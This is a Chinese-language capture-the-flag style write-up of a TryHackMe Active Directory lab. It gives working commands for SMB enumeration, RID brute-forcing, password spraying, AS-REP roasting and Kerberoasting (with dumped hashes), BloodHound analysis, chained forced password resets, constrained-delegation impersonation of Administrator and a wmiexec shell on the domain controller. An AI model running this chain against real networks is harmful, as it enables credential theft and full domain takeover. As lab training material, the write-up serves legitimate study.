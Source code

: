 ```yaml
---
title: 'THM Active Directory 渗透测试实战：从委派攻击到域控接管'
description: '本文完整记录了针对域的渗透测试过程，涵盖SMB枚举、Kerberos协议攻击、约束委派滥用等高级AD攻击技术，最终通过权限链实现域控接管。'
date: 2025-02-07
tags: ['Active Directory', 'Kerberos', 'SMB', '约束委派', 'BloodHound']
image: './assets/image-20250210145734557.png'
authors: ['0xd00']
---
```


## 初始信息

已知IP:10.10.92.51

## 信息收集与初始访问

### 端口扫描

```bash
nmap  -sS -T4 -A 10.10.92.51
```

![image-20250207143334163](./assets/image-20250207143334163.png)

![image-20250207144723528](./assets/image-20250207144723528.png)

根据扫描结果可以知道这是一台Windows Server，直接盯上我们的常客SMB

### SMB枚举

smbmap扫一下有没有匿名用户

```bash
smbmap.py -u "anonymous" -H 10.10.92.51
```

![image-20250207145009172](./assets/image-20250207145009172.png)

发现了`Data`目录有读写权限，`IPC$`目录有读权限。

![image-20250207152946792](./assets/image-20250207152946792.png)

![image-20250207153148854](./assets/image-20250207153148854.png)

通过文本文件我们能得知这个新员工的密码是`ResetMe123!`，而且根据密码内容，这可能是系统的默认密码。

![image-20250207153859430](./assets/image-20250207153859430.png)

通过浏览其中的pdf文件我们能够推断出txt文件可能是一个模板文件，用于将`<User>`替换成用户名后渲染到pdf的这一页中。

所以根据内容已经所以接下来的新思路就是枚举所有用户名，尝试使用默认密码进行登录。

### 用户枚举

```bash
crackmapexec smb 10.10.92.51 -u "anonymous" -d thm.local -p '' --rid-brute >> a.txt
```

![image-20250207161022443](./assets/image-20250207161022443.png)

```bash
cat a.txt| cut -d '\' -f 2 | grep SidTypeUser | awk '{print $1}' > usernames.txt
```

![image-20250207161633499](./assets/image-20250207161633499.png)

### 密码喷射

```bash
crackmapexec smb 10.10.92.51 -u usernames.txt -p 'ResetMe123!'
```

![image-20250207163201644](./assets/image-20250207163201644.png)

可以发现，目前只有pdf中的用户`LILY_ONEILL`未修改默认密码。

可惜的是通过`LILY_ONEILL`无法获取到shell

## 横向移动与权限提升

扫描开启了 **“无需预认证”**的账户

```bash
apt install python3-impacket
```

### Kerberos AS-REP Roasting攻击

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass 'thm.corp/' -dc-ip 10.10.92.51 -request -usersfile usernames.txt
```

![image-20250207165554311](./assets/image-20250207165554311.png)

发现三个TGT

```
$krb5asrep$23$ERNESTO_SILVA@THM.CORP:6a45925477f99879b8055888ce6bca96$927fb698caac41a10e1023638d035d9115ad11f93a0b21cd4d1b66d9993da62dca5a0d85cda5e1ffd24d769510738c4948b7e482690ba002d0768b8acf8fc22356f161703fd9fe8b5aa701463436625204a4a716bb914784316c26700bfb27a80040ebbbdb3580ccd91e6e130f79481e6d6717ab79b2c1d325bffb4c185876832b950430cee0939edd333e90a0500327bed3284539f0874f548c7b3c81bc0c18d7f922b32982178225a54681e949a3a041795c7e3949f7617e0e665cef645ade4b7dab1fb71ca5ed6e5dc81a3bec792583c111312ff39a745e4c43a9e41d8f9a269b5a1f

$krb5asrep$23$TABATHA_BRITT@THM.CORP:e5a3c8465c0d6fdfa0b6b31c2ea1dfc8$99b7065eeb90ff423ad65e55de27d48fbc36fad77f9dcf4dffc9fcd6347772b9f9903b676512d551c7e565b2be9c192cff0ded60627346d58d500b5d923832d84fdab6da3ec6e03f0ee7ee81b5f54f37916f9aca5eefd5f8ad6fac06147b254b00a459986ad76e52c9a33131891e4984a2fe01c9c2a3def7feee6bf2919b28299fcfa7c932939b2fcfba66a2d5a0217c74f04360d4f2913d4a59a6d52addd6540963c814ed60b72ddcc208aa3beae9d0c37ee75f04a52267b0a27f7a64071cad5a708cb3a786dd8a01a5a41491f724a34856351a49d221c863c93c19a9d1a7df4cea6ae2

$krb5asrep$23$LEANN_LONG@THM.CORP:45cb306670d80c559c718a645b2fecf7$1e48fc282e120d5e78de9644784b6c10b3ef3adf6849bcaae394b333cb3809931783ba62fc40adab997ee0a393f404eddfd4f3256c57edc22e36ddcbcf4f06611170a954f19954ef0650a2306d36c3f67306cb590aa902478adfa9b84ab8de59d29b74c15de0c06aec5a1c3a20b3d6c762634f3d363e68229d9af1dd2bbb15dc1ebee78991a605c509c61b0df0b1034e84261ee53ded8919293214fcf679f4aa90587699f8343fa0852340ede08f095cce71c3043c245e74ec3aeb55d8f268d0648b6cb6c722e01f3e494240b5bef183dd4f1de1634e9dc526a05a7080f2c08311a79336
```

爆破出一个密码

![image-20250207170330360](./assets/image-20250207170330360.png)

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py "thm.corp/TABATHA_BRITT:marlboro(1985)" -dc-ip 10.10.92.51 -request -outputfile SPN.hashes
```

![image-20250207171246320](./assets/image-20250207171246320.png)

但可惜的是TABATHA_BRITT也不可用。

### bloodhound权限分析

```bash
bloodhound-python -d THM.corp -u 'TABATHA_BRITT' -p 'marlboro(1985)' -ns 10.10.92.51 -c all
```

![image-20250207172229560](./assets/image-20250207172229560.png)

### 通过用户枚举域中信息

从此位置起ip变更为`10.10.76.184`

![image-20250210142426054](./assets/image-20250210142426054.png)

将收集到的数据导入到`bloodhood`中

检查`AS-REQ Roastable`用户

![image-20250210142805590](./assets/image-20250210142805590.png)

选中`TABATHA_BRITT`节点，Node info->OUTBOUND CONTROL RIGHTS->Transitive Object Control

![image-20250210144135361](./assets/image-20250210144135361.png)

![image-20250210145734557](./assets/image-20250210145734557.png)

![image-20250210153941815](./assets/image-20250210153941815.png)

可见约束委派被配置为允许委派到域控制器的 **CIFS** 服务，所以我们获取到`DARLA_WINTERS`账户之后即可获取域控权限。

## 约束委派攻击

### 密码重置操作链

```text
TABATHA_BRITT
└─→ GenericAll → SHAWNA_BRAY
    └─→ ForceChangePassword → CRUZ_HALL
        └─→ ForceChangePassword → DARLA_WINTERS
            └─→ 约束委派 → Domain Controller (CIFS)
```

由于`TABATHA_BRITT`有`SHAWNA_BRAY`的`GenericAll`权限，所以我们可以用其重置`SHAWNA_BRAY`的密码

```bash
net rpc password "SHAWNA_BRAY" "QWER@1234" -U "THM.CORP"/"TABATHA_BRITT"%"marlboro(1985)" -S "10.10.76.184"
crackmapexec smb 10.10.76.184 -u 'SHAWNA_BRAY' -p 'QWER@1234'
```

![image-20250210152013523](./assets/image-20250210152013523.png)

`SHAWNA_BRAY`具有`ForceChangePassword`权限

```bash
net rpc password 'CRUZ_HALL' 'QWER@1234' -U 'thm.corp'/'SHAWNA_BRAY'%'QWER@1234' -S 10.10.76.184
crackmapexec smb 10.10.76.184 -u 'CRUZ_HALL' -p 'QWER@1234'
```

![image-20250210152901727](./assets/image-20250210152901727.png)

`CRUZ_HALL`也具有`ForceChangePassword`权限

```bash
net rpc password 'DARLA_WINTERS' 'QWER@1234' -U 'thm.corp'/'CRUZ_HALL'%'QWER@1234' -S 10.10.76.184
crackmapexec smb 10.10.76.184 -u 'DARLA_WINTERS' -p 'QWER@1234'
```

![image-20250210153107076](./assets/image-20250210153107076.png)

### 约束委派利用

```bash
python3 /usr/share/doc/python3-impacket/examples/getST.py -spn cifs/HayStack.thm.corp -impersonate Administrator THM.corp/DARLA_WINTERS
```

![image-20250210161948114](./assets/image-20250210161948114.png)

```bash
export KRB5CCNAME=Administrator.ccache
```

### 域控接管


这里有个小坑,`haystack.thm.corp`应该添加到hosts文件中,`wmiexec`似乎没有参数能够指定域控ip
```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass Administrator@haystack.thm.corp
```

![image-20250210164102035](./assets/image-20250210164102035.png)

